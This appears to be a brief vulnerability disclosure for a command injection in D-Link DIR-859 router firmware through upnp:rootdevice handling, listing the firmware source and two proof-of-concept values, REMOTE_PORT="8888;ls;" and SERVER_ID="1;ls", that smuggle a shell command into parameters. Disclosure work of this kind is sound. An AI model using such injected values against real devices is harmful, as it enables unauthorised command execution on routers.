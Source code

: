# D-LINK DIR-859 A1 1.05 and A1 1.06B01 Beta01 upnp:rootdevice command injection

## Firmware address
http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DIR-859 
![image-1](./img/3.jpg)

## Debugging verification
set REMOTE_PORT parameter as REMOTE_PORT="8888;ls;" 
![image-1](./img/1.jpg) 
set SERVER_ID parameter as SERVER_ID="1;ls" 
![image-1](./img/2.jpg) 
